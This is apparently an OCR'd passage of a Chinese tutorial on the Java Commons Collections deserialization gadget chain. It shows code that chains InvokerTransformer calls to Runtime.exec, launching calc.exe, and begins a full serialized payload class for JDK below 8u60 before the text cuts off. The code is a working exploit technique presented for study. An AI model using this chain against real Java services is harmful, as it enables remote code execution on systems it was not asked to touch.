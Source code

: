   ```java
  public class TransformedMapTest {

      public static void main(String[] args) {
          new TransformedMapTest().run();
      }

      public void run(){
          Map map=new HashMap();
          map.put("key","value");
          //调用目标对象的toString方法
          String command="calc.exe";
          final String[] execArgs = new String[] { command };
          final Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {
                          String.class, Class[].class }, new Object[] {
                          "getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {
                          Object.class, Object[].class }, new Object[] {
                          null, new Object[0] }),
                  new InvokerTransformer("exec",
                          new Class[] { String.class }, execArgs)
          };
          Transformer transformer=new ChainedTransformer(transformers);
          Map<String, Object> transformedMap=TransformedMap.decorate(map,null,transformer);
          for (Map.Entry<String,Object> entry:transformedMap.entrySet()){
              entry.setValue("anything");
          }
      }
  }
  ```

  以上代码,就会调用起我们的计算器。
  由此可见，我们只需要把经过我们包装好的 transformedMap 对象作为 AnnotationInvocationHandler 的属性并序列化，我们就可以在反序列化的时候执行我们的恶意代码。

  完整的代码如下(需要 jdk8u60 以下的版本)

  ```java
  public class CommonCollectionsPlayLoad {

      public static void main(String[] args) throws Exception {
          new CommonCollectionsPlayLoad().run();
      }

      public void run() throws Exception {
          deserialize(serialize(getObject()));
      }

      //在此方法中返回恶意对象
      public Object getObject() throws Exception {
          //构建恶意代码
          String command="calc.exe";
          final String[] execArgs = new String[] { command };
          final Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {
                          String.class, Class[].class }, new Object[] {
                          "getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {
                          Object.class, Object[].class }, new Object[] {
                          null, new Object[0] }),
                  new InvokerTransformer("exec",
                          new Class[] { String.class }, execArgs)
          };
  ```